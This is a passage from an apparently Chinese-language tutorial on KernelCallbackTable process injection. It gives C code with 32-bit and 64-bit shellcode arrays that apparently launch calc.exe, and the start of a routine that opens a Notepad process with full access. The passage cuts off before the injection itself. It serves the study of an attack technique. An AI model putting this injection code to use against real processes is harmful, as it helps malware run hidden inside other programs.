 
#### 触发shellcode



### 实现代码

```c
#include<stdio.h>
#include<Windows.h>
#include<stdlib.h>
#include "struct.h"

// https://github.com/capt-meelo/KernelCallbackTable-Injection/blob/master/KCT.cpp
// http://hacky.ren/2022/04/23/%E7%BB%BF%E7%9B%9F%E7%A7%91%E6%8A%80-%E6%AF%8F%E5%91%A8%E8%93%9D%E5%86%9B%E6%8A%80%E6%9C%AF%E6%8E%A8%E9%80%81%EF%BC%882022.4.16-4.22%EF%BC%89/

// 32bit
unsigned char shellcode[] = "\xcc\xc3\x55\x89\xE5\x33\xC0\x50\xB8\x2E\x64\x6C\x6C\x50\xB8\x65\x6C\x33\x32\x50\xB8\x6B\x65\x72\x6E\x50\x8B\xC4\x50\xB8"
"\xA0\x12\xed\x76"
"\xFF\xD0\x33\xC0\x50\xB8\x2E\x65\x78\x65\x50\xB8\x63\x61\x6C\x63\x50\x8B\xC4\x6A\x05\x50\xB8"
"\xF0\xE1\xF0\x76"
"\xFF\xD0\x33\xC0\x50\xB8"
"\x80\x59\xed\x76"
"\xFF\xD0\x90\x90\xC3";
// 64bit
unsigned char shellcode64[] = "\xcc\xc3\x55\x48\x8B\xEC\x90\xC7\x04\x24\x2E\x64\x6C\x6C\xC7\x44\x24\xFC\x65\x6C\x33\x32\xC7\x44\x24\xF8\x6B\x65\x72\x6E\x48\x8B\xCC\x90\x90\x48\xB8"
"\xA0\x8C\xC7\xA7\xFE\x7F\x00\x00"
"\xFF\xD0\xBA\x05\x00\x00\x00\xC7\x04\x24\x65\x78\x65\x2E\xC7\x44\x24\xFC\x63\x6C\x61\x63\xC7\x44\x24\xF8\x00\x00\x00\x00\x48\x8B\xCC\x90\x48\xB8"
"\xD0\x77\x41\xA8\xFE\x7F\x00\x00"
"\x90\x90\x90\xC3";

/*
typedef struct _PROCESS_BASIC_INFORMATION {
	PVOID Reserved1;
	PVOID PebBaseAddress;
	PVOID Reserved2[2];
	ULONG_PTR UniqueProcessId;
	PVOID Reserved3;
} PROCESS_BASIC_INFORMATION;
*/

typedef LONG(NTAPI* NtQueryInformationProcessPtr)(
	HANDLE ProcessHandle,
	DWORD ProcessInformationClass,
	PVOID ProcessInformation,
	ULONG ProcessInformationLength,
	PULONG ReturnLength
	);



int main()
{
	STARTUPINFO si = { sizeof(si) };
	PROCESS_INFORMATION pi = { 0 };

	HWND hWnd = FindWindow(L"Notepad", NULL);
	DWORD processId;
	DWORD threadId = GetWindowThreadProcessId(hWnd, &processId);
	HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, processId);
	//printf("[++] processId 0x%lp\n[++] threadId 0x%lp", processId, threadId);
```